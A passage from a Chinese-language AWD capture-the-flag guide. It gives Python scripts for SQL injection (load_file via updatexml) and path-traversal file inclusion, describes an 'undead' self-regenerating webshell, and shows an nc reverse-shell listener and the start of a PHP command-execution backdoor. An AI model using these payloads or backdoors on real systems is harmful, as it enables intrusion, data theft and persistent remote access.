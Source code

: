          f.close()
         f1.close()
         ```

      3. ​

   9. 加固，快速修改生效

   10. 常见漏洞

      1. 常见的漏洞包括SQL注入、文件包含、文件上传等等。对于SQL注入类的漏洞，一般不会有过滤，可以用sqlmap跑出来，再利用—sql-shell执行select load_file(‘/flag’);即可得到flag，也可以利用into outfile写木马维持权限，但要根据实际情况，可能会遇到权限问题。用sqlmap跑比较耗时，可以利用payload写一个python，自动化进行攻击：

         ```python
         def sqli(host):
             global sess_admin
             data = {"section_name":"asd","admin_name":"'||(SELECT updatexml(1,concat(0x7e,(select load_file('/flag')),0x7e),1))||'","announcement":"asd"}
             r = sess_admin.post('http://%s/index.php/section/add'%host,data=data)
             flags = re.findall(r'~(.+?)~',r.content)
             if flags:
                 return flags[0]
             else:
                 return "error pwn!"
         ```

      2. 上传漏洞一般也是比较简单的黑名单过滤、服务器解析漏洞等等，可以直接上传木马；

      3. 对于文件包含漏洞，直接可以通过../../../../../../flag的方式获取：

         ```python
         def include(host):
             r = requests.get(url="http://%s/?t=../../../../../../flag"%host)
             flags = re.findall(r'^(.+?)<',r.content)
             if flags:
                 return flags[0]
             else:
                 return "error pwn!"
         ```

   11. 权限维持

       1. 2种方法，需要网站的权限为www-data，如果网站的权限是ctf，那么是没有权限上传文件的。

       2. 这里说的方法就比较“搅屎”了，上面说到利用预留后门可以维持权限，主要有两种，一种是“不死马”，另一种是反弹shell

          1. 利用预留后门，上传上面的“不死马”并访问，就会一直生成.config.php的一句话木马，木马内容可以自行修改，只要别被其他队伍看懂就行。
             这个不死马比较猥琐，解决的方法需要重启apache，或者写一个程序不停kill这个不死马进程

          2. 反弹shell。利用预留后门上传上面的php文件并访问，就可以用nc反弹shell，之后就可以一直得分了。`nc -lp 9999`

             ```php
             <?php 
             function which($pr) { 
             $path = execute("which $pr"); 
             return ($path ? $path : $pr); 
             } 
             function execute($cfe) { 
             $res = ''; 
             if ($cfe) { 
             if(function_exists('exec')) { 
             @exec($cfe,$res); 
             $res = join("\n",$res); 
             } elseif(function_exists('shell_exec')) { 
             $res = @shell_exec($cfe); 
             } elseif(function_exists('system')) { 
             @ob_start(); 
             @system($cfe); 
             $res = @ob_get_contents(); 
             @ob_end_clean(); 